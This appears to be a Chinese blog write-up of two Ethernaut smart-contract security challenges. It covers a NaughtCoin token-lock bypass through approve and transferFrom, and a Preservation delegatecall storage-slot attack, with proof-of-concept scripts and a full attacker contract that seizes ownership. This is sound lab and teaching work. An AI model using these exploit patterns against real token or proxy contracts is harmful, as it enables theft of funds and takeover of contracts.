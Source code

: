 ```yaml
---

title: '使用ERC20标准库不重写完全问题与delegateCall-2'
date: 2022-12-13 14:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'
---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第十五 / 十六关NaughtCoin / Preservation思路与POC

##### 先看第一个合约代码

##### 目标: bypass转账判断

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  //限制 必须是初始代币拥有者 并且在区块时间过去10年后
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```

##### poc思路:point_right:：这个确实很简单,因为此合约只重写了transfer函数并且限制只存在于transfer函数中,仔细看ERC20标准就知道有transfer函数用于**普通转账**,还有transferFrom用于**授权转账**. 所以其实只需要我们自己授权自己发送代币然后使用transferFrom函数即可.

```solidity
 //ERC20标准 transferFrom标准实现
 function transferFrom(
        address from,
        address to,
        uint256 amount
    ) public virtual override returns (bool) {
        //sender为被授权者
        address spender = _msgSender();
        //校验代币所有者是否有批准 被授权者使用amount数量的代币,有就开始转账
        _spendAllowance(from, spender, amount);
        _transfer(from, to, amount);
        return true;
    }

```

##### poc脚本:

```js
await contract.approve(player,toWei('1000000'))
await contract.transferFrom(player,'0xe58812571718B4aBb70afe96A02A366e009D171e',toWei('1000000'))
```

##### 只是需要注意一点,转移如此多的ERC20代币是非常消耗gas的:black_nib:如果gas上限不够大概会收到这样的错误:

```bash
Error in RPC response:,err: max fee per gas less than block base fee: address 0x0e21d35681E679C33dD49731935FB81F1aee8C05, maxFeePerGas: 28609540 baseFee: 302717279 (supplied gas 15000000)
```



#### 看第二个合约代码:  

##### 目标: 修改owner变量的值

##### 看起来没有任何问题 没有任何修改owner变量的逻辑,但是别忘了 Preservation 这是个代理合约(它使用了delegateCall) :black_flag:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

//代理合约
contract Preservation {
  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // 设定函数签名
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 

  function setFirstTime(uint _timeStamp) public {
  //代理调用timeZone1Library合约的setTime方法
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// 逻辑合约
contract LibraryContract {
  /*
  其实问题出在了这里,实际的逻辑执行合约是不存储任何数据的(数据的更改发生在代理合约上),
 !!! 这代表着逻辑合约上的变量所占slot实际是与代理合约对应的
  因此逻辑合约的变量设置必须与代理合约一样.
 !!! 所以这里更改的storedTime变量的数据占slot0位置,这代表着实际更改的数据是Preservation合约slot0上的数据
  */
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

##### poc思路:point_right:：能够更改Preservation合约slot 0的数据这意味着什么呢,意味着你可以更改timeZone1Library库的地址为恶意合约的地址,意味着可以使setFirstTime函数实际调用的是恶意合约上的方法。

```js
//设置恶意合约地址到slot0
await contract.setFirstTime('0x95a3b18c0590672CA4C2be9d3548de87486ba170')
//此时调用setFirstTime方法实际是调用恶意合约的setTime方法
await contract.setFirstTime('0x0e21d35681E679C33dD49731935FB81F1aee8C05')
//成功修改
await contract.owner()
'0x0e21d35681E679C33dD49731935FB81F1aee8C05'
```

##### 恶意合约代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract PreservationBypass { 
//变量的数量类型所占slot 必须与Preservation合约保持一致
 address public t1;
 address public t2;
 address public owner;
 uint storedTime;
 //函数签名是不变的所以其实只要方法名为setTime()即可
    function setTime(uint256 _owner) public{
         owner =  address(uint160(_owner));         
    }
}
```

